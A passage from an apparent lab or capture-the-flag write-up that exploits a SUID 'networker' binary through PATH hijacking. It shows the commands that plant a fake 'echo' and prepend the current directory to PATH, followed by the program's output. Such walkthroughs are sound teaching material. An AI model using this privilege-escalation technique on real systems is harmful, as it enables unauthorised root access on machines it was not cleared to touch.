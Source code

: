 So here's whats happening

```
1. It prints out "*** Networker 2.0 *** "
2. It run ifconfig to know the network interfaces present
3. Then it pings the localhost (127.0.0.1) and sends only 1 packet 
4. It then echo "echo linux tool verion 5"
```

Nothing really much in it but there's a vulnerability we can take advantage of which is PATH Hijack

PATH variables can be easily performed if programmers forget to add absolute paths instead of just names and relative paths

In this case the programmer forgot to add the full path to the echo binary 

So lets exploit this xD

```
jimmy@debian:~$ echo "/bin/id" > echo
jimmy@debian:~$ chmod +x echo
jimmy@debian:~$ export PATH=.:$PATH
jimmy@debian:~$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
jimmy@debian:~$ 
```

Now i'll run the suid binary again 

```
jimmy@debian:~$ ./networker 
*** Networker 2.0 *** 
eth0      Link encap:Ethernet  HWaddr 00:50:56:bf:7c:b8  
          inet addr:192.168.66.49  Bcast:192.168.66.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:febf:7cb8/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:205961 errors:0 dropped:0 overruns:0 frame:0
          TX packets:173916 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:22474582 (21.4 MiB)  TX bytes:59352548 (56.6 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:38 errors:0 dropped:0 overruns:0 frame:0
          TX packets:38 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:2900 (2.8 KiB)  TX bytes:2900 (2.8 KiB)

PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.011 ms

--- localhost ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.011/0.011/0.011/0.000 ms
Done 
echo linux tool version 5
 jimmy@debian:~$
 ```
  
